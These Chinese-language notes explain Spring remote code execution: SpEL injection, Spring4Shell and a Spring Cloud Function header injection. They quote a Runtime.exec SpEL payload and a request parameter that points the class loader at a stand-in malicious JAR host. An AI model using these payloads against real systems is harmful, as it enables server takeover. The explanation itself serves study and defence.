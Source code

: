 ### 讲下 Spring 相关的 RCE 原理

**1. Spring Expression Language (SpEL) 注入**

**原理**： SpEL 是一种强大的表达式语言，类似于 OGNL，用于在运行时动态地评估和执行表达式。它的强大之处在于，可以调用 Java 类、方法，甚至是系统命令。如果应用程序在处理用户输入时，直接将未经验证的输入作为 SpEL 表达式来解析，就会导致 SpEL 注入漏洞

**攻击链**：

1. **用户输入**：攻击者在 HTTP 请求中发送一个恶意的 SpEL 表达式，例如： `T(java.lang.Runtime).getRuntime().exec("whoami")`
2. **Spring 解析**：应用程序的代码将这个输入作为 SpEL 表达式传递给 `SpELParser`
3. **表达式执行**：SpEL 解释器会解析并执行这个表达式
4. **远程代码执行**：`T(java.lang.Runtime).getRuntime().exec("whoami")` 这段代码会通过反射调用 `java.lang.Runtime` 类的静态方法 `getRuntime()`，然后调用 `exec()` 方法来执行系统命令，从而实现 RCE

**典型场景**：

- **Spring Boot Actuator**：在旧版本的 Spring Boot 中，Actuator 的某些接口（如 `/env` 或 `/refresh`）在配置不当时，可以被利用来执行 SpEL 表达式，从而触发 RCE

**2. Spring Framework 数据绑定漏洞 (CVE-2022-22965)**

**原理**： 这个漏洞被称为“**Spring4Shell**”，它利用了 Spring MVC 的**数据绑定**功能。当一个 HTTP 请求被绑定到一个 Java 对象时，Spring 会尝试将请求参数的值设置到对象的属性上。攻击者可以利用这个机制，通过构造恶意的请求参数，来访问和修改一些特殊的、不应该被访问的类属性

**攻击链**：

1. **用户输入**：攻击者构造一个恶意的 HTTP 请求，其参数名为：`class.module.classLoader.URLs[0]=http://malicious-site/evil.jar`
2. **数据绑定**：Spring 将这个参数绑定到一个 Java 对象
3. **ClassLoader 修改**：Spring 的数据绑定机制会解析这个参数，并最终修改**应用程序的类加载器（ClassLoader）**
4. **加载恶意代码**：一旦类加载器被修改，攻击者就可以通过其他请求，让应用程序去加载一个远程的恶意 JAR 包，从而在服务器上执行恶意代码

**影响**：

- 这个漏洞的危害性极高，因为它影响了 Spring Framework 5.2 及 5.3 版本的核心数据绑定功能。攻击者无需认证即可利用

**3. Spring Cloud Function SpEL 注入 (CVE-2022-22963)**

**原理**： 这个漏洞是另一个 SpEL 注入的例子，但它存在于 **Spring Cloud Function** 库中。这个库允许开发者使用函数式编程来处理请求。当通过 Spring Cloud Function 路由请求时，如果路由头（`spring.cloud.function.routing-expression`）被设置，它的值就会被当作 SpEL 表达式来执行

**攻击链**：

1. **用户输入**：攻击者在 HTTP 请求的 Header 中添加一个名为 `spring.cloud.function.routing-expression` 的头，其值为一个恶意的 SpEL 表达式，例如：`T(java.lang.Runtime).getRuntime().exec("whoami")`
2. **函数路由**：Spring Cloud Function 在处理请求时，会获取这个头的值
3. **表达式执行**：它会直接将这个值作为 SpEL 表达式来执行，导致 RCE

**影响**：

- 这个漏洞的利用非常简单，只需要一个 HTTP 请求头即可。它影响了 Spring Cloud Function 3.1.6 和 3.2.2 等版本，危害同样很高